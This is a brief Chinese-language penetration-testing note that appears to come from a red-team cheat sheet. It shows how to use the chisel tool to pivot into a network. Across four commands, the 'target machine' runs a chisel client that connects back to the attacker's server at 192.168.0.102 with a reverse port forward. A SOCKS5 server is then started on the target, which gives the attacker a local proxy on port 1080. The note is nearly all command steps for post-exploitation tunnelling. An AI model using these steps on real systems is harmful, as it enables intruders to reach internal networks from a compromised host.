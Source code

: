 	https://github.com/jpillora/chisel/releases
	攻击机监听
	>chisel.exe server -p 12138 --reverse
![image](img/364.png)

	靶机执行
	>chisel.exe client 192.168.0.102:12138 R:12345:127.0.0.1:12346
![image](img/365.png)

	靶机执行
	>chisel.exe server -p 12346 --socks5
![image](img/366.png)

	攻击机执行
	>chisel.exe client 127.0.0.1:12345 socks
![image](img/367.png)

	当隧道建立成功时，攻击机本地会启动1080端口
![image](img/368.png)

	即可使用
